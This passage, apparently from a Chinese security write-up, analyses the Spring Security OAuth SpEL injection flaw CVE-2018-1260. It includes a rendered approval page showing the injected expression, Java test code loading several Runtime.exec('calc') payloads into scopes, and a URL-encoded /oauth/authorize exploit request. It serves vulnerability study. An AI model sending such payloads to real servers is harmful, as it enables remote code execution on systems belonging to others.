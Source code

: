 ```html
<html>
    <body>
        <h1>OAuth Approval</h1>
        <p>Do you authorize 'xJPRnj{authorizationRequest.clientId}' to access your protected resources?</p>
        <form id='confirmationForm' name='confirmationForm' action='xJPRnj{path}/oauth/authorize' method='post'>
            <input name='user_oauth_approval' value='true' type='hidden'/>
            <ul>
                <li>
                    <div class='form-group'>
                        xJPRnj{T(java.lang.Runtime).getRuntime().exec("calc")}:
                        <input type='radio' name='xJPRnj{T(java.lang.Runtime).getRuntime().exec("calc")}' value='true' checked>Approve</input>
                        <input type='radio' name='xJPRnj{T(java.lang.Runtime).getRuntime().exec("calc")}' value='false'>Deny</input>
                    </div>
                </li>
            </ul>
            <label><input name='authorize' value='Authorize' type='submit'/></label>
        </form>
    </body>
</html>
```

看到了什么？是的，两个`radio`的`name`属性值也变成了我们的PoC，所以在运行完测试用例之后，会弹出三个计算器。

另外，Scopes是一个集合，因此理论上我们也可以一次传入多个SPEL表达式：

```java
HashMap<String, Object> scopes = new HashMap<String, Object>();
scopes.put("${T(java.lang.Runtime).getRuntime().exec(\"calc\")}", "true");
scopes.put("${T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")}", "false");
model.put("scopes", scopes);
```

这次是六个计算器。

### Web应用环境中的Scopes值

分析到这里，对于不太了解Spring Security OAuth的同学，会有一个疑问，这个漏洞到底怎么利用？

虽然`WhitelabelApprovalEndpoint.getAccessConfirmation()`配置了`@RequestMapping()`注解，可以访问/oauth/confirm_access直接进入该方法，但方法中判断并获取scopes是通过`model.get()`或`request.getAttribute()`，无法通过URL的请求参数对其传参赋值。

简单介绍一下其相关流程：

1. 当客户端向授权服务器发起授权请求时 *（/oauth/authorize）* ，会将请求参数中`scope`的值转换为`Set`集合封装进`AuthorizationRequest`中，校验应用配置的Scopes是否为空或所有Scope都有效
1. 授权服务器内部重定向请求至/oauth/confirm_access，之后的事就不用再多说了吧

因此可以这样请求：

http://domain.com/oauth/authorize?client_id=[client]&response_type=[type]&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc%22%29%7D&redirect_uri=[uri]

需要注意的是，/oauth/authorize和/oauth/confirm_access默认都有认证保护。

## 参考

1. [CVE-2018-1260](https://pivotal.io/security/cve-2018-1260)
1. [CVE-2016-4977](https://pivotal.io/security/cve-2016-4977)
1. [CVE-2016-4977: RCE IN SPRING SECURITY OAUTH 1&2](http://secalert.net/#CVE-2016-4977)